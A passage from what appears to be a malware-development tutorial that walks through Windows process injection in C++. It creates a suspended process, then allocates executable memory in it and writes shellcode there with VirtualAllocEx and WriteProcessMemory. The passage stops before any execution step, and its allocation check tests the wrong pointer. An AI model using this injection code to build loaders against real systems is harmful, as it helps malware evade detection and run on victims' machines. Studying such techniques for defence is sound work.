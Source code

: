 And then after we've defined our structures and prepared the path we can now create the process:

```
  if (!CreateProcessA(
      NULL,
      lpPath,
      NULL,
      NULL,
      FALSE,
      CREATE_SUSPENDED,
      NULL,
      NULL,
      &si,
      &pi
  )
      ) {
      printf("CreateProcess failed with erorr %x", GetLastError());
  }

  *dwProcessID = pi.dwProcessId;
  *hProcess = pi.hProcess;
  *hThread = pi.hThread;
```
And finally we save the values of the process ID, Handle, and first thread's ID.

## Injecting the shellcode

After we've got a handle to our process, we need to inject the payload in order to later execute it:

We simple use `VirtualAllocEx` then `WriteProcessMemory`. This function will give us a pointer to the shellcode memory inside the `ppAddress` OUT parameter we passed.

```cpp
BOOL InjectShellcode(IN HANDLE* hProcess, IN PBYTE Shellcode, IN SIZE_T SizeofShellcode, OUT PVOID* ppAddress) {


    SIZE_T dwNumberofBbytesWritten;
    *ppAddress = VirtualAllocEx(*hProcess, NULL, SizeofShellcode, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    if (ppAddress == NULL) {
        printf("VirtualAlloc failed with error %x", GetLastError());
        return FALSE;
    }

    if (!WriteProcessMemory(*hProcess, *ppAddress, Shellcode, SizeofShellcode, &dwNumberofBbytesWritten) || dwNumberofBbytesWritten != SizeofShellcode) {

        printf("WriteProcessMemory failed with error %x", GetLastError());
        return FALSE;
    }

    return TRUE;

}
```
